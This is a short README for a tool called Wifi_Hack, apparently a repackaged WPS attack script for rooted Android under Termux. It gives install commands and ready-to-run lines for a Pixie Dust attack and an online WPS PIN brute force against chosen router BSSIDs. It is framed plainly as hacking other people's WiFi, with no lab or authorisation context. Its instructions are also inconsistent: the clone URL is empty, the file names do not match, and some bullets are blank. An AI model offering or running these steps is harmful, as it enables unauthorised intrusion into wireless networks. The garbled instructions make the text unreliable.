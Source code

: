 # Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

### Installation :

```bash
$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone 

$ cd Wifi_Hack

$ chmod +x birihack.py

$ sudo python hack.py --help
```

#### Example : `sudo python hack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- 
- `sudo python hack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python hack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python hack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
